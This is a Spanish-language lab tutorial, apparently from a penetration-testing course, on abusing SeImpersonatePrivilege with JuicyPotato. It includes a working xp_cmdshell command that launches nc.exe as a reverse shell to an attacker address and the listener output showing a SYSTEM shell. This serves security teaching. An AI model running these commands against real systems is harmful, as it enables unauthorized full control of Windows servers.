 El comando `whoami /priv` confirma que [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) está listado. Este privilegio se puede usar para suplantar una cuenta privilegiada como `NT AUTHORITY\SYSTEM`. [JuicyPotato](https://github.com/ohpe/juicy-potato) se puede usar para explotar los privilegios `SeImpersonate` o `SeAssignPrimaryToken` a través del abuso de DCOM/NTLM reflection.

### Escalating Privileges Using JuicyPotato

Para escalar privilegios usando estos derechos, primero descarguemos el binario `JuicyPotato.exe` y subamos esto y `nc.exe` al servidor de destino. A continuación, configuremos un listener de Netcat en el puerto 8443 y ejecutemos el comando a continuación donde `-l` es el puerto de escucha del servidor COM, `-p` es el programa a lanzar (cmd.exe), `-a` es el argumento pasado a cmd.exe, y `-t` es la llamada `createprocess`. A continuación, le estamos diciendo a la herramienta que intente ambas funciones [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) y [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera), que necesitan privilegios `SeImpersonate` o `SeAssignPrimaryToken` respectivamente.

```r
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output                                                                             

--------------------------------------------------------------------------------   

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375                               
                                                                            
[+] authresult 0                                                                   
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM                                                                                                    
[+] CreateProcessWithTokenW OK                                                     
[+] calling 0x000000000088ce08
```

### Catching SYSTEM Shell

Esto se completa con éxito y se recibe un shell como `NT AUTHORITY\SYSTEM`.

```r
sudo nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system


C:\Windows\system32>hostname

hostname
WINLPE-SRV01
```

---